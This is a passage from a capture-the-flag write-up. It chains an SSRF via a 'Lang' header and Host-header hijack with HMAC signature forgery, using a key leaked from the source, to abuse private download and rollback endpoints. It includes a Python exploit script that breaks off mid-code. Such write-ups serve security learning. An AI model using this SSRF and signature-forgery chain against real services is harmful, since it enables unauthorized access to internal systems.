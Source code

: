 From these observations, a rather weird path to exploitation can be devised:

1. SSRF via the `Lang` header in the `/apis/coin` endpoint of the _public_ service.
   + Hijack the target host to `private:5000` via the `Host` header.
2. Obtain `dbHash` from `/integrityStatus`.
   + Use it to calculate `Sign` (affected by query string) and `Key` (affected by DB contents) headers as needed.
3. Make the API "download itself" in the backup directory by calling the private `/download` endpoint, using `http://localhost:5000/integrityStatus` to generate some data.
   + This will create a file named "integrityStatus" in the backup directory that will exist until the next scheduled cleanup cycle. The content of such file aren't important, any other endpoint could have been used.
4. Use the name of the downloaded file to trigger a rollback through the private `/rollback` endpoint.
5. If all went well, the `Lang` header of the response should be populated with the flag.
   + Since this attack depends on exact timings and the environment is shared between all the CTF participants, it may take a few tries to succeed in a live environment.

```python
#!/usr/bin/env python3

import hashlib, hmac, json, requests

HOST = 'xxx.xxx.xxx.xxx'

# Pulled from /private/app/main.py @ L21
privateKey = b'let\'sbitcorinparty'

# Pulled from /private/app/main.py @ L61
def integrityKey(dbHash):
  retVal = hashlib.sha512((dbHash).encode('ascii')).hexdigest()
  return retVal

# Pulled from /private/app/main.py @ L152
def sign(query):
  retVal = hmac.new(privateKey, query.encode('ascii'), hashlib.sha512).hexdigest()
  return retVal

if __name__ == '__main__':
  i = 1
  while True:
    print(f'Try #{i}...', end='\r')

    # Get the hash of the current DB
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': 'integrityStatus',
    })
    dbHash = json.loads(response.headers['lang'])['dbhash']

    # Make the API download itself in the backup dir
    query = 'src=http%3A%2F%2Flocalhost%3A5000%2FintegrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'download?{query}',
      'Sign': sign(query)
    })

    # Use the name of the downloaded file to trigger a rollback
    query = 'dbhash=integrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'rollback?{query}',
      'Sign': sign(query),
      'Key': integrityKey(dbHash)
```